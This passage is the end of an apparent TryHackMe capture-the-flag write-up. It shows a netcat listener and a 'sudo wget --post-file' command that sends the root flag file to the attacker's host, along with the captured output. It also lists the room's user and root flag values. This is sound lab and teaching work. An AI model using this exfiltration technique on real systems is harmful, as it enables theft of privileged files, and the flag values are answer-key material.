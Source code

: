 - GOTEM! Now let's do the same thing but with root flag.

  ```
  #Kali
  nc -lvnp 4444

  #Target
  sudo wget --post-file=/root/root_flag.txt [YOUR-THM-IP]:4444

  #Kali
  listening on [any] 4444 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.82.183] 49918
  POST / HTTP/1.1
  User-Agent: Wget/1.17.1 (linux-gnu)
  Accept: */*
  Accept-Encoding: identity
  Host: [YOUR-THM-IP]:4444
  Connection: Keep-Alive
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 33
  
  b1b968b37519ad1daa6408188649263d
  ```

- That's all folks, see ya in the next one!

---

## 🏁 Flags

- **User Flag**: `057c67131c3d5e42dd5cd3075b198ff6`
- **Root Flag**: `b1b968b37519ad1daa6408188649263d`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Finding right sudo exploit.`

- What did I learn?
  `Just sharpening my skills.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
